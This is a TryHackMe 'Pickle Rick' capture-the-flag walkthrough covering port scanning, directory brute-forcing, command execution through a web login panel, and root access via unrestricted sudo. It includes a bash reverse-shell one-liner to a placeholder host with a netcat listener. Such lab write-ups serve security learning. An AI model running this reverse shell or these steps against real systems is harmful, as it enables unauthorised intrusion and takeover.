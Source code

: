 # TryHackMe Pickle Rick

![pick](img/pick.jpg)

## Scanning & Enumeration :

> A good rule of thumb is to start by scanning your machine for any open ports.

command:

```apache
nmap -sCV 10.10.66.88
```

![nmap](img/nmap.png)

* Port 22- ssh

Here we are able to see that our SSH port is open. This port isn't too vulnerable unless we have found someones credentials. Se we will not mess with it.

* Port 80- http

It is here were we find a webservice. Lets poke around and see if there is anyting interesting.

![web](img/web.png)

Great it looks like in source coude we have found a user name. Lets take note of that and keep digging, maybe we will get lucky and find the password.

![username](img/username.png)

---

## Brute force directories :

> We are going to be using dirsearch to try and locate any directories that may have been hidden from us.
> Command:

```apache
dirsearch -u http://10.10.66.88 -w /usr/share/wordlists/rockyou.txt
```

![dirsearch](img/dirsearch2.png)

we have to directories imported :

1. /robots.txt ---> we found a password
2. /login.php

How about we go and check out the login.php.

![login](img/login.png)

Nom Let's entrer The USERNAME and PASSWORD we found !!

---

# Login :

> I try put command [`ls -la`] i got these Files and Directory ,So we conclude that there is Command Execution.

![cmd](img/command-injection.png)

> In this case we will put REVERSHELL and SPY by Tool NETCAT

* REVERSHELL -->

```apache
bash -c 'exec bash -i &>/dev/tcp/IP-HOST/1337 <&1'
```

* NETCAT -->

```apache
nc -nlvp 1337
```

![flag1](img/flag1.png)

Finally we got a SHELL , and we found there a file named ~~``Sup3rS3cretPickl3Ingred.txt``~~ it has FLAG1.

---

> Always when we become SHELL we go to Path " /home " To know the user .

![](flag2.png)

> We found a file name "second ingredients" .if you try read to file by "``cat second ingredients`` " you will get ***ERROR* **,because name file is 1 name but ***intermittent* **.

* ***So you should write command :*** ``cat *``

---

# Root :

In order to get root we must try what we know about ***privilege escalation .***

* > i try put command (``sudo -l``) ,and we found this :
  >

![img](img/hint-root.png)

we have NOPASSWORD EVERYTHING ,So let's Try command :

```apache
sudo su
```

![](img/root.png)

*Finally ,we finished this Machine.*

# Congratulations!!
